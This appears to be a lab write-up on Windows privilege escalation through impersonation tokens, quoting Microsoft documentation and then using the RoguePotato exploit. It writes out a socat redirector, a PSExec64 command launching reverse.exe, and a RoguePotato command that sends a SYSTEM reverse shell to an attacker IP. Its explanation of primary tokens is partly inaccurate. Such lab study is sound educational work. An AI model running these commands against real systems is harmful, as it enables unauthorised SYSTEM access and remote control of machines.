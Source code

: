According to the microsoft documentation: 

> **Impersonation Token**: An access token that has been created to capture the security information of a client process, allowing a server to "impersonate" the client process in security operations.
\- [source](https://learn.microsoft.com/en-us/windows/win32/secgloss/i-gly) under "impersonation token"


More information can be found [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/impersonation-tokens):

> An impersonating thread has two access tokens:
> - A _primary access token_ that describes the security context of the server. To get a handle to this token, call the **OpenProcessToken** function.
> - An _impersonation access token_ that describes the security context of the client being impersonated. To get a handle to this token, call the **OpenThreadToken** function.

Lot's of new information. I've tried to break this down a bit, so here's what I have come up with:

- An impersonation token serves as a kind of "ID card" that the server/system can take a look at to check who we are. Now, if we could "forge" or "steal/obtain" one of these tokens, we could potentially use it for... well, impersonating a user and act with access to said user's privileges. 
- Quoting the documentation: "A _primary access token_ is **an access token that is typically created only by the Windows kernel and may be assigned to a process to represent the default security information for that process**". This means that if we get our hands on this token, we'll be able to get access to SYSTEM privileges.

I hope that saves some people trouble of reading through the documentation. A quick search for "Impersonatio Token exploits" yields us many available ones, including the [RoguePotato exploit](https://github.com/k4sth4/Rogue-Potato) that we'll be using. 

To begin, we need to setup a `socat` redirector on our machine, forwarding port `135` to `9999` on windows. 

```console
$ sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.220.187:9999
```

Once this is done, if we simulate a user logging into the machine with elevated privileges, like a service account user, and using `PSExec64.exe` to trigger the `reverse.exe` executable, we'll receive a reverse shell connection on our machine with elevated privileges.

The following command can be used to simulate this:

```console
C:\Users\user> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

We now have to set up yet another listener, this time listening on port 9999, and then launch the _RoguePotato_ exploit on the target to get a reverse shell with SYSTEM privilages. This can be done by executing the following command on the target machine:

```console
C:\Users\user> C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
```

To quote the README of the git repository we referred to before:

> JuicyPotato abused ***SeImpersonate*** or ***SeAssignPrimaryToken*** privileges to get execution as SYSTEM. But it fails against Windows Server 2019. RoguePotato can be use to abuse abused SeImpersonate Priviledge, if the target OS is Windows Server 2019.
